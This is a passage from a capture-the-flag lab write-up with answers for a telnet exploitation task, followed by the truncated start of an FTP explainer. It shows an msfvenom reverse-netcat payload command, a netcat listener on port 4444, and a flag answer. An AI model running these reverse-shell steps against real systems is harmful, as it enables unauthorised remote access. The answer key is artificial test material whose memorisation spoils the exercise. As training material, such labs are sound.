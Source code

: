 6. <p>Now, use the command <b>"ping [local THM ip] -c 1" </b>through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)<br /></p>

```
Y
```

7. <p>Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!<br /></p>

```
OK
```

8. <p>We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:<br /></p><div style="font-size:14px;line-height:17px;-moz-tab-size:4;-o-tab-size:4;-webkit-tab-size:4;tab-size:4"><div><b><span>"msfvenom</span><span> </span><span>-</span><span>p</span><span> </span><span>cmd</span><span>/</span><span>unix</span><span>/</span><span>reverse_netcat </span><span>lhost</span><span>=[local tun0 ip]</span><span></span><span> </span><span>lport</span><span>=</span><span>4444</span><span> </span><span>R"</span></b></div><div><b><span><br /></span></b></div><div><span>-p = payload</span></div><div>lhost = our local host IP address (this is <b>your</b> machine's IP address)</div><div>lport = the port to listen on (this is the port on <b>your </b>machine)</div><div><span>R = export the payload in raw format<br /></span></div><div><span><br /></span></div><div><span>What word does the generated payload start with?<br /></span><b><span></span></b></div><div><span><br /></span></div></div>

```
mkfifo
```

9. <p>Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:</p><p><b>"nc -lvp [listening port]" </b></p><p>What would the command look like for the listening port we selected in our payload?<br /><b></b><br /></p>

```
nc -lvp 4444
```

10. <p>Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!<br /></p>

```
OK
```

11. <p>Success! What is the contents of flag.txt?<br /></p>

```
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

----------------------------------------

### TASK 8. Understanding FTP

<p></p><p></p><p><b><img src="https://cdn4.iconfinder.com/data/icons/computer-technology-31/100/technology-14-512.png" style="width:176.5px;margin:0px;float:right;height:176.5px;" /></b><b>What is FTP?</b></p><p>File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.<br /></p><p><b><b>How does FTP work?</b></b></p><span>A
 typical FTP session operates using two channels: </span><ul><li><span>a command (sometimes called the control)
 channel </span></li><li><span>a data channel. </span></li></ul><p><span>As their names imply, the command channel 
is used for transmitting commands as well as replies to those commands, 
while the data channel is used for transferring data. </span></p><p>FTP operates using a client-server protocol.<span>
 The client initiates a connection with the server, the server validates
 whatever login credentials are provided and then opens the session. </span></p><p><span>While the session is open, the client may execute FTP commands 
on the server. <br /></span></p><p><b>Active vs Passive</b></p><p>The FTP server may support either Active or Passive connections, or both.  </p><ul><li>In an Active FTP connection, the client opens a port and 
listens. The server is required to actively connect to it.  </li><li>In a Passive FTP 